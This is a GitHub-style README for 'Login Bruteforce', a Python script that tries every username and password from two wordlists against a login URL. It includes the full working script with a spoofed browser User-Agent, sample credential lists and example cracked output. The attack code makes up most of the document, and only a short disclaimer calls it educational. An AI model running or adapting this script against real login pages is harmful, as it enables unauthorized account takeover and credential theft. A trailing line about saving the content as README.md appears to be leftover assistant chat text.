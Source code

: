 # Login Bruteforce

This project is a simple Python script for brute-forcing usernames and passwords against a specified URL. The script reads a list of usernames and a list of passwords, then attempts to authenticate each username-password combination against the provided URL. If a valid combination is found, it is printed out.

## Prerequisites

- Python 3.x

## Installation

1. Clone the repository:

```sh
git clone https://github.com/arifbinekram/Login-Bruteforce.git
cd Login-Bruteforce
```

2. Ensure you have the required files:

   - `bruteforce.py` - The main script file.
   - `user.txt` - A file containing a list of usernames (one per line).
   - `pass.txt` - A file containing a list of passwords (one per line).

## Usage

1. Prepare your `user.txt` and `pass.txt` files. For example:

   `user.txt`:
   ```
   root
   angela
   bob
   john
   alice
   ```

   `pass.txt`:
   ```
   toor
   trustno1
   password123
   qwerty
   letmein
   123456
   ```

2. Run the script with the URL, user list file, and password list file as arguments:

```sh
python3 bruteforce.py http://www.vulnerablesite.com/login.html user.txt pass.txt
```

## Example Output

```
Found User and Password combinations:
root:toor
angela:trustno1
bob:password123
john:qwerty
```

## Script Details

### Code Explanation

```python
# brute force passwords
import sys
import urllib.parse
import urllib.request

if len(sys.argv) != 4:
    print("usage: {} url userlist passwordlist".format(sys.argv[0]))
    sys.exit(0)

url = str(sys.argv[1])
filename1 = str(sys.argv[2])
filename2 = str(sys.argv[3])

with open(filename1, 'r') as userlist, open(filename2, 'r') as passwordlist:
    foundcreds = []
    FailStr = "Incorrect User or Password"

    users = userlist.read().splitlines()
    passwords = passwordlist.read().splitlines()

    for user in users:
        for password in passwords:
            data = urllib.parse.urlencode({"username": user, "password": password}).encode('utf-8')
            headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36'}
            request = urllib.request.Request(url, data=data, headers=headers)
            try:
                with urllib.request.urlopen(request) as response:
                    response_text = response.read().decode('utf-8')
                    if response_text.find(FailStr) < 0:
                        foundcreds.append(user + ":" + password)
            except urllib.error.HTTPError as e:
                print(f"HTTP error occurred: {e.code} - {e.reason}")
            except urllib.error.URLError as e:
                print(f"URL error occurred: {e.reason}")

if foundcreds:
    print("Found User and Password combinations:\n")
    for name in foundcreds:
        print(name)
else:
    print("No users found")
```

### Explanation

1. **Importing Libraries**:
   - `sys` for command-line arguments.
   - `urllib.parse` and `urllib.request` for handling URL encoding and making HTTP requests.

2. **Command-Line Arguments**:
   - The script expects three arguments: URL, user list file, and password list file.

3. **Reading Files**:
   - Usernames and passwords are read from the specified files and stored in lists.

4. **Brute Force Logic**:
   - The script attempts each username-password combination by sending an HTTP POST request to the specified URL.
   - It checks the response for a specific failure string (`FailStr`).
   - If the failure string is not found, it means the login was successful, and the combination is saved.

5. **Output**:
   - The script prints any found username-password combinations or a message indicating that no valid combinations were found.


## Disclaimer

This script is intended for educational purposes only. Do not use it to attack any systems without proper authorization. Unauthorized access to computer systems is illegal and unethical.
```

You can save this content in a file named `README.md` in your project directory. Make sure to update the `LICENSE` file accordingly if it is not already present.
